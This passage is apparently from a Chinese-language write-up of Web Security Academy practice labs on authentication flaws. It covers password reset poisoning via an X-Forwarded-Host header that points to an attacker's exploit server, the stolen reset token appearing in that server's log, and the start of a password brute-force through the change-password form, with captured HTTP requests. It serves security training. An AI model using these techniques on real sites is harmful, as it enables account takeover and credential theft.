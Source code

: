    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://accc1fbf1e96526cc0518046004100a9.web-security-academy.net/forgot-password
    X-Forwarded-Host: exploit-aceb1f6c1e4a5215c02180da01f20002.web-security-academy.net
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    
    username=carlos

	7.在攻击者的服务器中即可接受到重置密码的token，发现一个特殊ip，发送了token：

	172.31.30.82    2022-04-27 03:14:51 +0000 "GET /forgot-password?temp-forgot-password-token=dB4GTR5jLD3lRSPZPOYLeeI0By8b1x6S HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"

	8.拿到token后替换重置密码的link中的token，访问该link，即可重置carlos密码，之后登录carlos账户，完成。

小结：重置密码的功能请求中，支持X-Forwarded-Host的使用，改变的重置密码的link的目的地，导致漏洞。X-Forwarded-Host的作用是重写请求头信息，让被代理的服务器能够获取请求来源的真实域名和真实IP，在这里服务器误认为攻击者的域名为原始的请求来源。

####此处有个密码重置中毒的引申学习，包含三个靶场，可以扩展####


###修改用户密码###
通常，修改密码包括两步骤：输入当前密码，然后输入新密码。该功能会检查用户名和当前密码是否匹配，和登录过程一样。因此，有可能受到类似的攻击。

当允许攻击者无需处于受害者的登录状态而可以直接访问的时候，修改密码功能是相当危险的。例如，当用户名被隐藏提供了，攻击者可能能够修改请求中的这个参数，改为任意的用户。这可以用于枚举用户名和爆破密码。

####lab5通过修改密码功能进行爆破密码####
靶场中的修改密码功能有爆破的风险。提供一个用户名和密码wiener:peter,以及一个密码字典，要求访问carlos的账户。

	1.用wiener：peter登录，选择修改密码
	2.按照要求需要输入当前密码，新密码以及确认新密码三个框，发现当用户输入错误的密码时候，若两次输入的新密码匹配，则用户被锁住，自动推出；若两次新密码不匹配时候，网站只是简单反馈当前密码不正确。当用户输入正确的当前密码，但是两次输入的新密码不匹配，则提示新密码不匹配。因此，可以用这个方法爆破密码。
	3.burp抓包，抓取POST /my-account/change-password请求如下：
	POST /my-account/change-password HTTP/1.1
    Host: acf51f261e6cb580c0e09eeb004800bd.web-security-academy.net
    Cookie: session=SZ3i5TchPcuCJGyhHkaYlp8LwPzbS6KU
    Content-Length: 76
    Cache-Control: max-age=0
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    Origin: https://acf51f261e6cb580c0e09eeb004800bd.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://acf51f261e6cb580c0e09eeb004800bd.web-security-academy.net/my-account
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    